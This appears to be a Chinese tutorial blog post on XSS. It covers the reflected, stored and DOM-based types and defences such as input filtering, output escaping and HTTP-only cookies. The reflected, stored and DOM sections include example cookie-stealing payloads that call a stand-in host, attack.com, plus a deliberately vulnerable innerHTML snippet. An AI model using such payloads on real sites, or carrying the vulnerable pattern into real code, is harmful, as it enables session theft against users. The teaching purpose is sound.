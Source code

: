 ```yaml
---
title: 什么是 XSS 攻击？
date: 2020-11-20 20:39:27
sidebar: auto
tags:
  - xss
  - 浏览器安全
categories:
  - 浏览器
---
```


## 什么是 XSS

`XSS` 也称跨站脚本攻击，简单的来说就是当一个目标的站点被我们用户去访问，在渲染 HTML 这个过程中呢，出现了一些没有预期到的脚本指令，然后呢就会执行，这个时候呢，就产生了一个 XSS 的攻击。

`XSS` 攻击就是在用户访问这个页面的时候，插入一些自己的脚本。脚本让用户在访问这个页面的时候就可以执行这个脚本，攻击者通过插入的脚本执行呢，去获得用户的一些信息，比如说 cookie 发送到攻击者自己的网站，这就是跨站。

## XSS 分类

![](https://gitee.com/alvin0216/cdn/raw/master/images/xss.png)

### 反射型

访问地址如 `http://127.0.0.1:5500/index.html?keyword=<script>alert(1)</script>`。或者 `<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>`

```html
<div>
  您搜索的关键词
  <span id="keyword"></span>
  结果如下：;
</div>
<script>
  window.onload = function() {
    const searchParams = new URLSearchParams(window.location.search);
    document.getElementById('keyword').innerHTML = searchParams.get('keyword');
  };
</script>
```

注意，在 chrome 内无效，实际上 chrome 已经帮我们拦截掉这个攻击了。造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，

### 存储型

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致.

### DOM 型

如，读取 cookie， `?keyword=<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>`

## XSS 产生原因以及预防

部分的过滤实际上是没有办法实现的，因为攻击者有各种各样神奇的代码，你完全想象到有一群黑客，他们专门就是研究这些东西，研究如何去绕过，你服务器的过滤，最典型的就是对我们的 url 输入参数做各种各样的编码来绕过我们的 XSS 过滤，那既然知道他是如何去产生的，我们在程序中应该如何去防御它呢？XSS 防御的总体思路呢，就是对输入做一个过滤，对输出做一个编码，同时呢，把我们的用户可以设置为一个 HTTP-only，也就是我要对所有提交的内容做一个过滤，要对 url 中的参数做一个过滤，要过滤掉那些会导致脚本执行的相关内容。然后呢，对动态输出的页面的那些内容呢，做一个 HTML 的编码，让这个脚本没有办法在浏览器中执行，虽然这个输入过滤呢能够被绕过，我们如果这样处理的话呢，还是能够拦截一大部分的 XSS 攻击，但我们如何对这个输入和输出，做一个处理呢，那一般的思路是这样，我觉得。

#### 输入处理

包括用户输入、URL 参数、POST 请求、ajax

> 黑名单的过滤策略

我们刚才说的那个 alert 它能够弹出来呢，是因为首先我们有这种 `script` 的标签对吧，里面有一个 `alert1` 所以呢，我们在输入的时候需要将这个脚本做一个过滤，如何去过滤呢？我将这一段给它替换掉，中间呢，只留着一个，那么你就没有办法去输出了，我们说的这种方式呢，是一种**黑名单的过滤策略**。，黑名单就是列出那些不能出现的脚本清单，一旦我们遇到这样的呢，去进行处理，还有一种是白名单的过滤。

> 白名单的过滤策略

比如姓名输入：大小只有 6 到 14 位，并且呢是字母和数字，还有下划线，所以呢，其他的任何输入它都是非法的，都会被我们丢弃掉，很显然，如果你使用我刚才说的白名单这种方式呢，你可以百分百的拦截所有的 XSS 攻击，但是呢，现实情况一般是不能够进行这么严格的白名单过滤的你，比如说我们要回复一个帖子，我们是很难预测到用户到底想出什么东西的，所以呢，对服务的处理可能就要分情况了，比如说像用户名密码，这种我们就可以使用白名单这种策略，但是呢，像富文本编辑器里面用户输什么，实际上是不知道的，只能根据情况去不断的调整，那么输出如何去处理呢？输出处理。

#### 输出处理

转义

#### cookie

HTTP-only，禁止 document.cookie 的读取！
